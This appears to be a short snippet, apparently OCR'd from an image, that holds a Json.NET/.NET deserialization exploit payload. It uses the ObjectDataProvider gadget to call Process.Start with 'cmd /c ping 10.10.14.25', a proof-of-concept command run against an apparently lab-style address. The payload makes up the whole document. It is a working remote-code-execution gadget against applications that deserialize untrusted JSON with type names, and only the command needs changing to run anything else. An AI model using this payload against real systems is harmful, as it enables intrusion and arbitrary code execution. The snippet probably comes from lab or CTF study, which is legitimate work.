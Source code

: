 {
	'$type': 'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
	'MethodName': 'Start',
	'MethodParameters': {
		'$type': 'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
		'$values': ['cmd', '/c ping 10.10.14.25']
	},
	'ObjectInstance': {
		'$type': 'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'
	}
}
